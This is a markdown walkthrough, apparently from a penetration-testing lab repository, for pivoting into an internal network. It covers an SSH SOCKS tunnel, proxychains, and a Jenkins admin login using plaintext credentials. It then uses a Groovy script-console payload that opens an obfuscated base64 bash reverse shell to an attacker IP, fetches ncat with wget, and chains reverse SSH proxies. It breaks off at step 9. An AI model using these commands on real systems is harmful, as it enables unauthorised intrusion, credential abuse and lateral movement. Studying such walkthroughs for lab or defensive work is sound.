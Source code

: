 # Shortcut

- [Shortcut](#shortcut)

---

To get access to the internal network, do the following steps:

1. SSH tunnel on 192.168.8.3 (Credential: `iyer` / `Iyer@123`)

```
sudo -u brian ssh -N -D 9050 iyer@192.168.8.3
```

<br/>

2. Edit `/etc/proxychains.conf`. Make sure only socks4 is enabled.

```
socks4 127.0.0.1 9050
```

<br/>

3. With foxyproxy forwarding traffic to SOCK4 server 127.0.0.1:9050, login Jenkins (http://10.1.3.1:1234/) with the credential `autoadmin` / `Jenk!nsADMIN`

<br/>

4. Locally launch a netcat listener.

```
nc -nlvp 443
```

<br/>

5. On Jenkins, go to http://10.1.3.1:1234/script. Then use the following script to get a reverse shell:

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xMS80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

<br/>

6. On the reverse shell, get ncat (https://github.com/ZephrFish/static-tools/raw/master/ncat) from the local machine:

* Local:

```
python3 -m http.server 80
```

* Remote:
```
cd /tmp && wget http://192.168.100.11/ncat
```

<br/>

7. Create another HTTP proxy via SSH tunnel using ncat:

```
chmod +x ncat && ./ncat -l 4444 --proxy-type http &
```

```
ssh -R 4445:127.0.0.1:4444 brian@192.168.100.11
```

<br/>

8. Modify `/etc/proxychains.conf` to use the HTTP proxy:

```
nano /etc/proxychains.conf
```

Disable the sock4 proxy and add the following:
```
http 127.0.0.1 4445
```

<br/>

9. 